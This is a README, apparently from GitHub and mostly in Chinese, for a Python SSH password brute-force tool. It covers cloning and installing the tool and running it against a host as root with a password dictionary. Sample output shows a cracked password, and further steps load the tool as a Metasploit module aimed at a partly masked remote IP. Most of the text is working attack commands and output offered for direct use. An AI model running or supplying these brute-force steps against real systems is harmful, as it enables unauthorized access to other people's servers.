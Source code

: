 # SSH_Bruteforce

运行方式：终端下运行脚本，或在MSF中作为模块运行

### 获取项目

```Bash
git clone https://github.com/HZzz2/SSH_Bruteforce
```



#### 进入目录和安装第三方库

```Bash
cd SSH_Bruteforce
pip install paramiko
```

#### 获取帮助

```Bash
python SSH_Bruteforce.py -h
```

```text
usage: SSH_Bruteforce.py [-h] -H HOST -u USER -f FILE -t THREAD

exmple: python3 SSH_Bruteforce.py -H 192.168.1.180 -u root -f password.txt -t 10

optional arguments:

  -h, --help            show this help message and exit

  -H HOST, --host HOST  Hostname/IP       要爆破的主机IP

  -u USER, --user USER  Username          SSH用户名

  -f FILE, --file FILE  Password file     密码字典

  -t THREAD, --thread THREAD              线程数
    Thread number
```

### 1.Python脚本运行

#### 执行脚本

```Bash
python SSH_Bruteforce.py -H 192.168.1.180 -u root -f password.txt -t 9
```

```text
[-] 123221 is not correct
[-] 442342 is not correct
[-] 842482 is not correct
[-] 524253 is not correct
[-] 224224 is not correct
[-] 724731 is not correct
[+] 123456 is correct
SSH PassWord：123456
```

出现paramiko ssh banner错误不影响程序运行(线程过高的原因，推荐不高于10线程)

### 2.MSF模块运行

#### 将MSF模块复制到根目录下

```Bash
cp MyModules / -r
```

#### 给模块添加执行权限

```Bash
└─# chmod 755 /MyModules/modules/auxiliary/scanner/ssh/MSF_SSH_Bruteforce.py
```

#### 启动MSF

```Bash
msfdb run
```

#### 加载模块目录并使用

```Bash
msf6 > loadpath /MyModules/modules 
msf6 > use auxiliary/scanner/ssh/MSF_SSH_Bruteforce 

```

#### 设置相关参数

![image](https://user-images.githubusercontent.com/22775890/169562446-ced93cb7-f00a-484b-95d6-00363bce6175.png)

![](https://secure2.wostatic.cn/static/wA1FZ6QopMaBmytmgyKxAc/image.png)

```Bash
msf6 auxiliary(scanner/ssh/MSF_SSH_Bruteforce) > set rhosts 7.XX.XX.18
msf6 auxiliary(scanner/ssh/MSF_SSH_Bruteforce) > set user_name rXXt
msf6 auxiliary(scanner/ssh/MSF_SSH_Bruteforce) > set file /usr/share/commix/src/txt/passwords_john.txt
```

#### 运行模块

```Bash
msf6 auxiliary(scanner/ssh/MSF_SSH_Bruteforce) > exploit 
```

![image](https://user-images.githubusercontent.com/22775890/169562481-7db5eeda-7c17-4a6e-a73b-8fd7f7bd869b.png)

![](https://secure2.wostatic.cn/static/3ucRjDEUCpQyWJ7n6S8RD/image.png)

